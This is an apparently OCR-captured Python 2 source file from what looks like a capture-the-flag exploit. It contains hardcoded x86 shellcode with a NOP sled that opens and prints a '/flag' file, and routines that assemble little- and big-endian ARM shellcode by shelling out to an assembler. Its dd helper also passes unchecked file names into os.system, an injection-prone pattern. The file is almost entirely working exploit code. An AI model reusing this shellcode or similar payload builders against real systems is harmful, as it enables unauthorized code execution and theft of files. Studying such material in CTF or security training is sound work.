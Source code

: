     import sys
    import os
    import time
    from sock import *

    # dd for files!
    def os_dd(dst, src, skip=0, seek=0, count=0):
        print "dd'ing", dst, "to", src, "skip", skip, "seek", seek
        cmd = 'dd if=%s of=%s skip=%d seek=%d bs=1'%(src,dst, skip,seek)
        if count: cmd += ' count='+str(count)
        os.system(cmd)

    # dd for lists!
    def dd(dst, src, skip=0, seek=0, count=None):
        if not count: count = min(len(dst)-seek, len(src)-skip)
        for i in range(count): dst[seek+i] = src[skip+i]
        return dst

    X86_SIZE = 0x4c
    def get_x86_shellcode():
        shellcode = ''

        # world's shortest nopsled
        shellcode += "\x90"*4

        shellcode += "\x31\xc0\x31\xdb\x31\xc9\x31\xd2"+\
                     "\xeb\x32\x5b\xb0\x05\x31\xc9\xcd"+\
                     "\x80\x89\xc6\xeb\x06\xb0\x01\x31"+\
                     "\xdb\xcd\x80\x89\xf3\xb0\x03\x83"+\
                     "\xec\x01\x8d\x0c\x24\xb2\x01\xcd"+\
                     "\x80\x31\xdb\x39\xc3\x74\xe6\xb0"+\
                     "\x04\xb3\x01\xb2\x01\xcd\x80\x83"+\
                     "\xc4\x01\xeb\xdf\xe8\xc9\xff\xff"+\
                     "\xff"+\
                     "/flag\x00\x00"
        open('shellcode-x86.bin','w').write(''.join(shellcode))
        return shellcode


    ARMEL_START_OFFSET = 0x60
    def get_armel_shellcode():
        os.system('arm-linux-gnueabi-as shellcode-arm.s -o shellcode-armel')
        os_dd('shellcode-armel.bin','shellcode-armel', skip=52, count=0x50)
        return open('shellcode-armel.bin').read()

    ARMEB_START_OFFSET = 0x110
    def get_armeb_shellcode():
        os.system('arm-linux-gnueabi-as -mbig-endian shellcode-arm.s -o shellcode-armeb')
        os_dd('shellcode-armeb.bin','shellcode-armeb', skip=52, count=0x50)
        return open('shellcode-armeb.bin').read()

